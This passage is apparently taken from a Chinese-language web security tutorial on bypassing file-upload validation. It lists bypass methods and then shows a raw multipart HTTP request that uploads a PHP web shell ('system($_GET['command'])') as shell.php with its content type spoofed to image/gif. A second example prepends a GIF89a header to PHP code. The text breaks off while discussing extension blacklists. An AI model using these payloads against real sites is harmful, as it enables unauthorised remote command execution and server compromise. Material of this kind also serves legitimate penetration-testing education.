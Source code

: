 ## 0x03 文件上传绕过校验姿势

```php
   1. 客户端绕过（抓包改包）
   2. 服务端绕过
        ·文件类型
        ·文件头
        ·文件后缀名
    3.配合文件包含漏洞绕过
    4.配合服务器解析漏洞绕过
    5.CMS、编辑器漏洞绕过
    6.配合操作系统文件命名规则绕过
    7.配合其他规则绕过
    8.WAF绕过
```

### 1.客户端绕过

可以利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名即可。

### 2.服务端绕过

#### 2.1 文件类型绕过

我们可以通过抓包，将content-type字段改为image/gif

```php
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为 Content-Type: text/plain)
  
<?php system($_GET['command']);?> --xYzZY-
```

#### 2.2 文件头绕过

在木马内容基础上再加了一些文件信息，有点像下面的结构

```php
GIF89a<?php phpinfo(); ?>
```

#### 2.3 文件后缀名绕过

前提：黑名单校验

黑名单检测：一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。
